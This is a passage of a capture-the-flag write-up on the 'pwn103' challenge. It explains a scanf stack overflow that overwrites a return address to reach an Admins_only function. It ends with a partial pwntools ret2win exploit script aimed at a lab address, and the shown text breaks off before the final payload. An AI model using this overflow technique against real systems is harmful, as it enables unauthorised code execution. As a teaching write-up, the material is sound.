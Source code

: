 In addition to all of that, there is `Admins_only` function which is the one we want to solve this CTF

### Admins_only
This is decompiled code

![picture 26](/assets/images/dbd73f2c5bfe018354fcd027e088997ac1293d2b49909bf95803b4d4f7d8cab6.png)  

How can we get into the `Admins_only` function? We can abuse `scanf` function in `general`. We can write to `*s1` variable, which resides at `rbp-0x20` . From there we can overwrite the return address of `general` function that was put onto the stack and make it return to `Admins_only` function instead. 

In order to reach the return address, we need 8 more bytes (64-bit!) so 28 in total.

Because of [MOVAPS](https://www.cameronwickes.co.uk/stack-alignment-ubuntu-18-04-movaps/) issue we can add another RET instruction before actual payload call.

## Exploit (local)

```python
from pwn import *

context.binary = binary = ELF("./pwn103.pwn103")

#p = process()
p = remote("10.10.16.17",9003)

p.sendline(b"3")
#admins_only_address = p64(0x00401554)
# alternative call

admins_only_address = p64(binary.symbols.admins_only)

ret_instruction = p64(0x00401377)

# payload before MOVAPS - adding ret_instruction
#payload = b"A"*0x20 + b"B"*0x8 + admins_only_address

# payload after fixing the bug
```